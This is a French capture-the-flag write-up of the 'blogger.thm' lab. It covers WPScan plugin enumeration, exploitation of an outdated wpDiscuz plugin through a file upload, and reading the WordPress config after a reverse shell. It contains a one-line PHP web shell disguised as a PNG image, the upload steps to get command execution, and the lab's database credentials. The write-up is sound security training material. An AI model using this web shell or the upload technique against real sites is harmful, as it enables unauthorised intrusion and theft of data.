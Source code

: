 ```bash
 | Version: 4.0.8 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://blogger.thm/assets/fonts/blog/wp-content/plugins/akismet/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://blogger.thm/assets/fonts/blog/wp-content/plugins/akismet/readme.txt

[+] wpdiscuz
 | Location: http://blogger.thm/assets/fonts/blog/wp-content/plugins/wpdiscuz/
 | Last Updated: 2022-10-12T19:07:00.000Z
 | Readme: http://blogger.thm/assets/fonts/blog/wp-content/plugins/wpdiscuz/readme.txt
 | [!] The version is out of date, the latest version is 7.5
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://blogger.thm/assets/fonts/blog/wp-content/plugins/wpdiscuz/, status: 200
 |
 | Version: 7.0.4 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://blogger.thm/assets/fonts/blog/wp-content/plugins/wpdiscuz/readme.txt
```

## Exploitation web

Ici on voit la présence du plugin wpDiscuz déjà croisé sur le [CTF Moee de VulnHub](https://devloop.users.sourceforge.net/index.php?article259/solution-du-ctf-moee-de-vulnhub). On va donc tenter à une exploitation similaire en uploadant un script PHP qui fera croire qu'il est une image via l'ajout d'entêtes spécifiques.

```bash
$ echo -e '\x89\x50\x4e\x47\x0d\x0a\x1a\x0a\x00\x00\x00\x0d\x49\x48\x44\x52\x00<?php system($_GET["cmd"]); ?>' > shell.php
```

Comme pour le précédent CTF il suffit d'aller en bas d'un article dans la zone de commentaire, cliquer sur la petite image au bas à droite et procéder à l'upload.

L'image uploadée est intégrée dynamiquement dans la page, on note son URL et on ajoute notre paramètre `cmd` pour avoir l'exécution de commande :)

## Escalade de privilèges

Après upload et exécution d'un reverse-ssh, mon premier réflexe est d'aller voir le fichier de configuration de Wordpress :

```php
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'sup3r_s3cr3t');
```
